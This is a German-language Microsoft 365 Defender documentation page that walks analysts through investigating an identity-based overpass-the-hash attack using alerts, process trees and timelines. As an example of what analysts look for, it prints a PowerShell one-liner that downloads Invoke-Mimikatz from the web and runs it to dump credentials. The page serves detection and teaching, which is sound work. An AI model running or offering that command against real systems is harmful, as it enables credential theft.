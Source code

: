 ```yaml
---
title: Beispiel für einen identitätsbasierten Angriff
description: Gehen Sie durch eine Beispielanalyse eines identitätsbasierten Angriffs.
keywords: Vorfälle, Warnungen, untersuchen, Korrelation, Angriff, Computer, Geräte, Benutzer, Identitäten, Identität, Postfach, E-Mail, 365, microsoft, m365, Reaktion auf Vorfälle, Cyberangriff
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: c028289a58247075c33e85d6d6f3797b3ddad7b4
ms.sourcegitcommit: de5fce90de22ba588e75e1a1d2e87e03b9e25ec7
ms.translationtype: MT
ms.contentlocale: de-DE
ms.lasthandoff: 05/10/2021
ms.locfileid: "52297188"
---
```

# <a name="example-of-an-identity-based-attack"></a>Beispiel für einen identitätsbasierten Angriff

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gilt für:**
- Microsoft 365 Defender

Microsoft Defender for Identity kann dabei helfen, böswillige Versuche zu erkennen, Identitäten in Ihrer Organisation zu schädlich zu machen. Da Defender for Identity in Microsoft 365 Defender integriert ist, können Sicherheitsanalysten Einblick in Bedrohungen von Defender for Identity erhalten, z. B. mutmaßliche Netlogon-Rechteerweiterungsversuche.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysieren des Angriffs in Microsoft Defender for Identity

Microsoft 365 Defender ermöglicht Es Analysten,  Warnungen nach Erkennungsquelle auf der Registerkarte Warnungen auf der Seite Vorfälle zu filtern. Im folgenden Beispiel wird die Erkennungsquelle nach **Defender for Identity gefiltert.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Beispiel für das Filtern der Erkennungsquelle für Defender for Identity":::

Die Auswahl der Benachrichtigung über mutmaßliche Überüberführung **des Hashangriffs** geht zu einer Seite in Microsoft Cloud App Security, auf der ausführlichere Informationen angezeigt werden. Sie können immer mehr über eine Warnung oder einen Angriff erfahren, [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) indem Sie **Weitere** Informationen zu diesem Warnungstyp auswählen, um eine Beschreibung des Angriffs sowie Korrekturvorschläge zu lesen.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Beispiel für eine mutmaßliche Benachrichtigung über die Überführung des Hashangriffs"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Untersuchen desselben Angriffs in Microsoft Defender for Endpoint

Alternativ kann ein Analyst Defender for Endpoint verwenden, um mehr über die Aktivität auf einem Endpunkt zu erfahren. Wählen Sie den Vorfall aus der Warteschleife aus, und wählen Sie dann die Registerkarte **Warnungen** aus. Von hier aus können sie auch die Erkennungsquelle identifizieren. Eine Als EDR bezeichnete Erkennungsquelle steht für Endpoint Detection and Response, also Defender for Endpoint. Hier wählt der Analyst eine warnung aus, die von EDR erkannt wurde.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Beispiel für eine Endpunkterkennung und -antwort in Defender for Endpoint"::: 

Auf der Warnungsseite werden verschiedene relevante Informationen angezeigt, z. B. der Name des betroffenen Geräts, der Benutzername, der Status der automatischen Untersuchung und die Warnungsdetails. Der Warnungsstory zeigt eine visuelle Darstellung der Prozessstruktur. Die Prozessstruktur ist eine hierarchische Darstellung von übergeordneten und untergeordneten Prozessen im Zusammenhang mit der Warnung.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Beispiel für eine Benachrichtigungsprozessstruktur in Defender for Endpoint"::: 

Jeder Prozess kann erweitert werden, um weitere Details anzuzeigen. Details, die ein Analyst sehen kann, sind die tatsächlichen Befehle, die als Teil eines bösartigen Skripts eingegeben wurden, ip-Adressen für ausgehende Verbindungen und andere nützliche Informationen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Beispiel für Prozessdetails in Defender for Endpoint":::
 
Wenn Sie **in der Zeitachse anzeigen** auswählen, kann ein Analyst einen Drilldown noch weiter gehen, um den genauen Zeitpunkt des Kompromisses zu ermitteln. 

Microsoft Defender for Endpoint kann viele schädliche Dateien und Skripts erkennen. Aufgrund vieler legitimer Verwendungen für ausgehende Verbindungen, PowerShell und Befehlszeilenaktivitäten würden einige Aktivitäten jedoch als gutartig angesehen, bis eine schädliche Datei oder Aktivität erstellt wird. Daher hilft die Verwendung der Zeitachse Analysten, die Warnung in den Kontext mit der umgebenden Aktivität zu setzen, um die ursprüngliche Quelle oder den Zeitpunkt des Angriffs zu bestimmen, die andernfalls durch allgemeine Dateisystem- und Benutzeraktivitäten verdeckt werden. 

Zu diesem Zeitpunkt würde ein Analyst zum Zeitpunkt der Warnungserkennung (in Rot) beginnen und einen Bildlauf nach unten durchführen, um zu bestimmen, wann die ursprüngliche Aktivität, die zu den schädlichen Aktivitäten führte, tatsächlich gestartet wurde. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Beispiel für das Starten zum Zeitpunkt der Warnungserkennung"::: 

Es ist wichtig, allgemeine Aktivitäten wie Windows Update-Verbindungen, Windows Trusted Software-Aktivierungsverkehr, andere häufige Verbindungen zu Microsoft-Websites, Internetaktivitäten von Drittanbietern, Microsoft Endpoint Configuration Manager-Aktivitäten und andere gutartige Aktivitäten von verdächtigen Aktivitäten zu verstehen und zu unterscheiden. Eine Möglichkeit dazu ist die Verwendung von Zeitachsenfiltern. Es gibt viele Filter, die bestimmte Aktivitäten hervorheben können, während alles herausfiltert wird, was der Analyst nicht anzeigen möchte. 

In der folgenden Abbildung hat der Analytiker gefiltert, um nur Netzwerk- und Prozessereignisse anzeigen zu können. Dadurch kann der Analyst die Netzwerkverbindungen und Prozesse sehen, die das Ereignis umgeben, bei dem Notepad eine Verbindung mit einer IP-Adresse hergestellt hat, die wir auch in der Prozessstruktur gesehen haben. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Beispiel für die Verwendung von Editor zum Herstellen einer schädlichen ausgehenden Verbindung"::: 

In diesem speziellen Ereignis wurde Notepad verwendet, um eine schädliche ausgehende Verbindung herzustellen. Häufig verwenden Angreifer jedoch einfach iexplorer.exe, um Verbindungen zum Herunterladen einer schädlichen Nutzlast herzustellen, da normalerweise iexplorer.exe Prozesse als reguläre Webbrowseraktivitäten angesehen werden.

Ein weiteres Element, nach dem sie in der Zeitachse suchen sollten, wäre die Verwendung von PowerShell für ausgehende Verbindungen. Der Analyst würde nach erfolgreichen PowerShell-Verbindungen mit Befehlen suchen, z. B. gefolgt von einer ausgehenden Verbindung zu einer Website, die `IEX (New-Object Net.Webclient)` eine schädliche Datei hosten. 

Im folgenden Beispiel wurde PowerShell zum Herunterladen und Ausführen von Mimikatz von einer Website verwendet:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Ein Analytiker kann schnell nach Schlüsselwörtern suchen, indem er das Schlüsselwort in der Suchleiste eintippt, um nur ereignisse anzeigen zu können, die mit PowerShell erstellt wurden. 

## <a name="next-step"></a>Nächster Schritt

Weitere Informationen finden Sie unter Phishing-Untersuchungspfad. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Siehe auch

- [Übersicht über Vorfälle](incidents-overview.md)
- [Verwalten von Vorfällen](manage-incidents.md)
- [Untersuchen von Vorfällen](investigate-incidents.md)

